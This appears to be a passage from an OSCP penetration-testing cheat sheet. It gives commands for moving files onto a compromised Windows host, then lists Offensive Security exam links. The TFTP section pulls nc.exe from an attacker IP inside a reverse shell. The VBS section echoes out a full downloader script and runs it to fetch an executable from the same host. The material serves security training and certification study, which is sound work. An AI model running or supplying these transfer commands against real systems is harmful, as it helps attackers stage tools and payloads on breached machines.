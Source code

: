 ```
```

```
TFTP
# In Kali
atftpd --daemon --port 69 /tftp
# In reverse shell
tftp -i 10.10.10.10 GET nc.exe
```

```
VBS
If FTP/TFTP fails you, this wget script in VBS is the go to on Windows machines.
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Execute
cscript wget.vbs http://10.10.10.10/file.exe file.exe
```

## Offensive Security Links

- OSCP Certification Exam Guide: https://support.offensive-security.com/oscp-exam-guide/
- Proctored Exam Guide: https://www.offensive-security.com/faq/#proc-1
    - https://support.offensive-security.com/proctoring-faq/
- OSCP Exam FAQ: https://forums.offensive-security.com/showthread.php?2191-FAQ-Questions-about-the-OSCP-Exam
- Common Technical Issues: https://forums.offensive-security.com/showthread.php?2190-Common-Technical-Issues
- General Questions: https://forums.offensive-security.com/showthread.php?2189-General-questions-about-the-PWK-course
- Network Introduction Guide: https://support.offensive-security.com/pwk-network-intro-guide/

